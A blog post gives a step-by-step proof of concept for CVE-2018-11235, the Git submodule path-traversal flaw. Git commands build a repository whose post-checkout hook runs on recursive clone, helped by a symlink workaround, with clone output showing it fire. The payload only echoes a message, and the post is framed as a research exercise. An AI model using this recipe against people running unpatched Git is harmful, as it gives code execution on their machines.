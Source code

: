 ```yaml
---
layout: post
title: CVE-2018-11235 - Quick & Dirty PoC
---
```


Earlier this week, I stumbled upon a [tweet][1] that caught my interest:

>Patches for git have been released, fixing cve-2018-11235, a RCE vulnerability I found! I'll publish a write-up next week describing the vuln and how this gave me RCE on GitHub Pages. https://marc.info/?l=git&m=152761328506724&w=2
[@_staaldraad][2]

RCE on Git? That sounded juicy!

After researching a little, I quickly found a [couple][3] of [posts][4] that summarize very well what the issue is, and later a [reddit thread][5] with some interesting discussions. The mentioned resources do a far better job at explaining this vulnerability than I would ever dream of, so I recommend you read those before continuing.

What I *did* thought was that, since there are (or at least were at the time of writing this) no working PoCs that I know of, it could be interesting to develop my own, just to confirm I understood the process correctly.

## Trying the easy way

Luckily, the [commit][6] that fixed the vulnerability in the official repository included a very self-explanatory test case, which I proceed to furiously *copy and paste* into a repo of my own to see if it worked. The commands were, more or less:

~~~bash

# First, create a test repository in /tmp
cd /tmp
git init test

# Then proceed to follow the test case steps
# An 'innocent' repository is needed to link our submodules to
git init innocent
git -C innocent commit --allow-empty -m foo

# Now, since I wanted this to be a remote PoC, I introduced a change here and pushed the repo to a remote Git server
cd innocent
git remote add origin <innocent-private-repo-url>
git push -u origin master

# Once that is done, it's time to return to our test repo and start creating our submodules, which are the key to RCE
cd ../test

# This submodule will serve our payload
# The command will create an 'evil' folder in the test repo which has a .git file that contains an url to the actual submodule's .git configuration folder, that is built like the following:
# ../.git/modules/${submodule_name}
# Keep this in mind because it will be important
git submodule add "<innocent-private-repo-url>" evil

# Now, we copy the git config folder of the submodule inside the test repo
mkdir modules
cp -r .git/modules/evil modules

# And then we can create our payload, which will be a simple echo to confirm we got RCE
# This hook will execute after a checkout, but only if a submodule .git config file points to moudles/evil
cat <<EOF > modules/evil/hooks/post-checkout
echo >&2 "YOU'VE BEEN PWND"
EOF
# ^ Yes, I changed that, the test case uses another message

# Now, in this step lies one of the fundamental pieces of the vuln: Path Traversal in submodule names
# Remember how the .git config file of the submodule pointed to the actual config folder? What if we put some Path Traversal characters in the submodule name?
git config -f .gitmodules submodule.evil.update checkout
git config -f .gitmodules --rename-section submodule.evil submodule.../../modules/evil

# So, via Path Traversal, we effectively pointed the .git folder of the submodule to a path in the parent folder, outside of its own .git folder. The one that happens to contain our payload :-)
# With this, the contents of the submodule's configuration can get pushed to the remote
# Ofc, we can do this because our Git version isn't patched yet

# Now it's time to commit and push
git add modules
git commit -am evil
git remote add origin <test-private-repo-url>
git push -u origin master

# The test case mentions that another submodule that is checked out before our evil submodule is needed to ensure a .git/modules directory is created beforehand
# So let's do that, why not
git submodule add "<innocent-private-repo-url>" another-module
git add another-module
git commit -am another
git push
~~~

Okay, that was easy! Just copy-pasting and calling it a day, right? Let's test our leet exploit. Just by cloning the repo with the `--recursive` or `--recurse-submodules` flags, the payload should execute...

~~~
$ git clone --recurse-submodules <test-private-repo-url>
Cloning into 'test'...
remote: Counting objects: 88, done.
remote: Compressing objects: 100% (64/64), done.
remote: Total 88 (delta 25), reused 0 (delta 0)
Receiving objects: 100% (88/88), 12.52 KiB | 0 bytes/s, done.
Resolving deltas: 100% (25/25), done.
Checking connectivity... done.
Submodule 'another-module' (<innocent-private-repo-url>) registered for path 'another-module'
Submodule '../../modules/evil' (<innocent-private-repo-url>) registered for path 'evil'
Cloning into 'another-module'...
remote: Counting objects: 2, done.
remote: Total 2 (delta 0), reused 0 (delta 0)
Receiving objects: 100% (2/2), done.
Checking connectivity... done.
Submodule path 'another-module': checked out '2b1692beafc6a96b94591556d047e6d4dc63dafe'
fatal: Could not chdir to '../../../../../../evil': No such file or directory
Unable to fetch in submodule path 'evil'
~~~

What. Something went wrong here.

## Oh, you tricky Path Traversal

Ok, so what happened? I double-checked the `.git` file that got generated inside the `evil` submodule folder, but it looked okay:

~~~
gitdir: ../.git/modules/../../modules/evil
~~~

It pointed to the correct location, the copied `modules` folder that is inside the parent repo. So, what's the configuration inside it?

~~~
$ cat modules/evil/config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
        worktree = ../../../../../../evil
[remote "origin"]
        url = <innocent-private-repo-url>
        fetch = +refs/heads/*:refs/remotes/origin/*
[branch "master"]
        remote = origin
        merge = refs/heads/master
~~~

Wow, look at that `worktree` value. That's definitely not what we pushed to the remote. What's happening here?

Well, it turns out that Git seems to modify the `worktree` value to make it work with the submodule folder in case you added extra directories in the path or something. So, what I guess it's doing is:

+ For every directory that is in `evil/.git`'s '`gitdir` (after the `..`), Git knows it will need to travel one directory back to get to the submodule folder again
+ So, once it reaches the submodule configuration folder, it alters its `worktree` value to make it point to the submodule folder. That means adding one `../` for every directory it traveled before.
+ But, since we added some Path Traversal to that path, it's traveling back too much directories, going outside the repo folder and giving an error before checking out, ruining the exploit.

I guess I didn't explain myself very clearly there, but what indeed *is* clear is that we can't execute our payload like this. We need to circumvent this problem of "going too much directories back". I got pretty stuck at this point, until I re-read the [Microsoft post][4], which gives a subtle hint when talking about the vulnerability remediation:

>The solution to this problem is quite simple and effective: submodule’s folder names are now examined more closely by Git clients. They can no longer contain .. as a path segment, and they **cannot be symbolic links**, so they must be within the .git repository folder, and not in the actual repository’s working directory.

Huuummmm. Could we use a symbolic link to make Git think it's in a directory when it's actually *deeper* in our `module` folder? After making some basic calculations (which I failed horribly several times until I got it right, and that's basic counting, so you can see here my brilliant brain at its best), it seemed that with 4 extra directories, the modified `worktree` would correctly point to the `evil` submodule folder.

What do we have to lose?

~~~bash
cd modules/
mkdir -p 1/2/3/4
mv evil 1/2/3/4/
ln -s 1/2/3/4/evil evil
git add modules
git commit -m "symbolic link"
git push
~~~

Now, the `evil` submodule's `.git` file points to `modules/evil`, but `modules/evil` is a symlink to `modules/1/2/3/4/evil`, from where `../../../../../../evil` is the correct path to the `evil` submodule folder. I know this is, like, *giving you a headache*, but follow me a little longer. We are, after all, one `git clone` away of knowing if our guess is right or wrong:

~~~
$ git clone --recurse-submodules <test-private-repo-url>

/test.git
Cloning into 'test'...
remote: Counting objects: 95, done.
remote: Compressing objects: 100% (67/67), done.
remote: Total 95 (delta 26), reused 0 (delta 0)
Receiving objects: 100% (95/95), 12.90 KiB | 0 bytes/s, done.
Resolving deltas: 100% (26/26), done.
Checking connectivity... done.
Submodule 'another-module' (<innocent-private-repo-url>) registered for path 'another-module'
Submodule '../../modules/evil' (<innocent-private-repo-url>) registered for path 'evil'
Cloning into 'another-module'...
remote: Counting objects: 2, done.
remote: Total 2 (delta 0), reused 0 (delta 0)
Receiving objects: 100% (2/2), done.
Checking connectivity... done.
Submodule path 'another-module': checked out '2b1692beafc6a96b94591556d047e6d4dc63dafe'
YOU'VE BEEN PWND
Submodule path 'evil': checked out '2b1692beafc6a96b94591556d047e6d4dc63dafe'
~~~

Yay!

## Conclusion

This is a quick and ditry PoC I did just for the challenge. **By no means I'm saying I deserve *any* credit for discovering or contributing to this vulnerability**. I just wanted to try and see if I could develop a working, **remote** PoC before the official walkthrough and details were published. Congratulations and big thanks to [@_staaldraad][2] for the discovery, I'm dying to read more about it and how it worked on GitHub Pages!

Oh, and speaking of GitHub, I'm unable to push the PoC to a repo in there because they are blocking submodules with Path Traversal names now, which is good, but that means this walkthrough will need to be enough for you if you want to replicate my steps.

I hope this wasn't too badly explained, I wanted it to be short and straightforward but I guess I diverged a little.

Thanks for reading!

[1]: https://twitter.com/_staaldraad/status/1001542421161930752
[2]: https://twitter.com/_staaldraad
[3]: https://www.edwardthomson.com/blog/upgrading_git_for_cve2018_11235.html
[4]: https://blogs.msdn.microsoft.com/devops/2018/05/29/announcing-the-may-2018-git-security-vulnerability/
[5]: https://www.reddit.com/r/netsec/comments/8n73b4/cve201811235_security_vulnerability_in_git/
[6]: https://github.com/git/git/commit/0383bbb9015898cbc79abd7b64316484d7713b44
